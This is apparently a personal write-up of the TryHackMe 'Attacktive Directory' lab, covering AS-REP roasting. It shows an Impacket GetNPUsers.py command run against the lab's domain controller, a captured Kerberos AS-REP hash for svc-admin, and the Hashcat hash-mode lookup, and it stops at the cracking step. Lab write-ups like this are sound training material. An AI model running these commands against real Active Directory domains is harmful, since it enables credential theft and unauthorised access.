 3. What is the other notable account is discovered? (These should jump out at you)
	- `backup`


---

> Aayan Ta | 27th April, 2024 | 20:00 | Day 2 of attempting [Attacktive Directory](https://tryhackme.com/r/room/attacktivedirectory) 


---

### Task 5: Abusing Kerberos
---

Target IP = 10.10.60.39 (day 2)

**AS-REP Roasting Attack**
- **Overview**: AS-REP Roasting exploits the "Does not require Pre-Authentication" setting in Kerberos. This setting allows querying for a Kerberos Ticket without initial verification.


- **Tool**: Impacket's **GetNPUsers.py**

```sh
usage: GetNPUsers.py [-h] [-request] [-outputfile OUTPUTFILE] [-format {hashcat,john}] [-usersfile USERSFILE] [-ts] [-debug]                                                              
                     [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-dc-host hostname]                                                                    
                     target   
```

**Command**: 
```sh
GetNPUsers.py -usersfile userlist.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.60.39 'spookysec.local/'
```

**Result:**

```sh
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9b7fd4870a23d1ab68f96e137455acd0$a25bf247ad52b323da8a9e6560e9fd9095e50225c8fbc1af135a180d4253b841b3ae386bc84da2215c448e2c25357227df45291264aa4cb3be18610eaa148f6e6340148af96b523361bab0a59c043687f51130d12cfaff4bfed5f7afd3f73efb5a618aacafd2ec547f689fee3e76af935d35a9702b23a16db659f25aba0a14190437682f59f25cabf0c2dfcd76e49107c17bb57dd218e514df898ee1a3c544513fa4cc1399afbf29e85aba5e20e6f6680503263128b2e6a6a4e759a90cd62fadb6a297d0578cfa509fd3caa5095e93c9b9718015fce9ca4af314253dc7a5010f27ce6eddd448f7ce374abf6e9e3e974e9235
```

- Visiting [Hashcat Wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) to identify the hash type. It's **"Kerberos 5, etype 23, AS-REP"**


| Hash-Mode | Hash-Name                        | Example                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| :-------- | :------------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 18200     | **Kerberos 5, etype 23, AS-REP** | `$krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac` |

**Crack the password hash using Hashcat:** (Errors)
